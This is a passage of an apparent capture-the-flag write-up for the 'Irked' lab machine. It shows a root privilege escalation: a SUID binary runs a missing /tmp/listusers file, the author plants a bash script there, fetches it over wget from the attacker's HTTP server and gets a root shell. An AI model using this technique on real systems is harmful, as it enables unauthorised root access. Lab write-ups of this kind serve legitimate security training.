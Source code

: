 And it's mentioning on the bottom something about `/tmp/listusers` was not found. Interesting. So it can't find the file under the `/tmp` directory and it is trying to run it. Something to remember is that this is running as the root user so anything it will run will be ran as root. So technically, all we need to do is create a `listusers` file, put it into the `/tmp` directory, and have some sort of content within the `listusers` file that will spawn a shell. This is really simple so let's do it. Firstly, I go ahead and use `cd` to change directories into `/tmp`

```
cd /tmp
```

Now I go back onto my host and create a file named `listusers` using a text editor like vim, nano, etc. Doesn't really matter as long as you can write into the file. I go ahead and put the following into the file:

```
#!/bin/bash

bash
```

The `#!/bin/bash` is known as a "shebang". This is used to essentially instruct this program to run from `/bin/bash`. Then all I put in there after is just `bash`. Typing `bash` into a terminal will just spawn a bash shell. So all this is doing is specifying we need to run from `/bin/bash` and then use the command `bash` to spawn a bash shell. Easy enough. Now I went ahead and saved the file and I start up another Python HTTP server. Again, I am using this so I can transfer the file from my host to the low privileged shell.

```
python -m SimpleHTTPServer 80
```

Now on the low privileged shell, I download the file from my host

```
wget http://10.10.14.36/listusers
```

```
ircd@irked:/tmp$ wget http://10.10.14.36/listusers
wget http://10.10.14.36/listusers
--2021-06-07 19:19:20--  http://10.10.14.36/listusers
Connecting to 10.10.14.36:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18 [application/octet-stream]
Saving to: ‘listusers’

     0K                                                       100% 3.86M=0s

2021-06-07 19:19:20 (3.86 MB/s) - ‘listusers’ saved [18/18]
```

Now that the file is in here, I am going to go ahead and run the SUID binary again.

```
/usr/bin/viewuser
```

```
ircd@irked:/tmp$ /usr/bin/viewuser
/usr/bin/viewuser
(unknown) :0           2021-07-07 09:01 (:0)
djmardov pts/0        2021-07-07 15:38 (10.10.14.36)
whoami && id
root
uid=0(root) gid=1001(ircd) groups=1001(ircd)
```

And I am now the root user!
